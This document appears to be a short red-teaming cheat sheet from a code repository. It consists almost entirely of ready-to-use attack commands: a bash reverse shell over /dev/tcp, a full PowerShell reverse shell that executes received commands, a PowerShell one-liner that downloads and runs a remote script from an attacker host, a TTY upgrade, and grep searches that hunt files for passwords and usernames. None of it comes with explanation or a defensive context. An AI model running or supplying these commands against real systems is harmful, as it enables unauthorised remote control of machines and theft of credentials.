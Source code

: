 # useful 4red teaming

simplest reverse shell 
> bash -c 'bash -i >& /dev/tcp/<your_ip>/4444 0>&1'

simple powershell reverse shell
> $client = New-Object System.Net.Sockets.TCPClient("<my_ip>",<my_port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

or save it as *.ps1* file and use
> powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://<my_ip>:<my_port>/mypowershell.ps1')"

upgrade to usable tty
> SHELL=/bin/bash script -q /dev/null

find all files with "pass"
> grep -i -R "pass" 2>/dev/null 
> egrep -i -R "pass|user" 2>/dev/null

